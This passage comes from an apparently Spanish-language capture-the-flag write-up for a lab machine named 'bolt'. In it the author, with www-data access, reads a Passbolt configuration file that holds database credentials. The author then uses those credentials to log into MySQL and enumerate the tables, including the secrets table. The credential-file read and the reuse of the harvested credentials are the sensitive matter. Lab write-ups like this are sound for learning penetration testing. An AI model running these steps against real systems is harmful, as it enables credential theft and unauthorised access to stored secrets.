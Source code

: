 Me llama la atención el archivo de nombre **`passbolt.php`**

```console
www-data@bolt:~$ cat /etc/passbolt/passbolt.php
...[snip]...
    // Database configuration.
    'Datasources' => [
        'default' => [
            'host' => 'localhost',
            'port' => '3306',
            'username' => 'passbolt',
            'password' => 'rT2;jW7<eY8!dX8}pQ8%',
            'database' => 'passboltdb',
        ],
    ],
...[snip]...
```

Otra credencial para otra base de datos que presuponemos será MySQL. Intentemos conectarnos.

```console
www-data@bolt:~$ mysql --user=passbolt --password='rT2;jW7<eY8!dX8}pQ8%' --database=passboltdb
...[snip]...
mysql> show tables;
+-----------------------+
| Tables_in_passboltdb  |
+-----------------------+
| account_settings      |
| action_logs           |
| actions               |
| authentication_tokens |
| avatars               |
| comments              |
| email_queue           |
| entities_history      |
| favorites             |
| gpgkeys               |
| groups                |
| groups_users          |
| organization_settings |
| permissions           |
| permissions_history   |
| phinxlog              |
| profiles              |
| resource_types        |
| resources             |
| roles                 |
| secret_accesses       |
| secrets               |
| secrets_history       |
| user_agents           |
| users                 |
+-----------------------+
25 rows in set (0.00 sec)

mysql> describe secrets;
+-------------+------------+------+-----+---------+-------+
| Field       | Type       | Null | Key | Default | Extra |
+-------------+------------+------+-----+---------+-------+
| id          | char(36)   | NO   | PRI | NULL    |       |
| user_id     | char(36)   | NO   | MUL | NULL    |       |
| resource_id | char(36)   | NO   | MUL | NULL    |       |
| data        | mediumtext | NO   |     | NULL    |       |
| created     | datetime   | NO   |     | NULL    |       |
| modified    | datetime   | NO   |     | NULL    |       |
```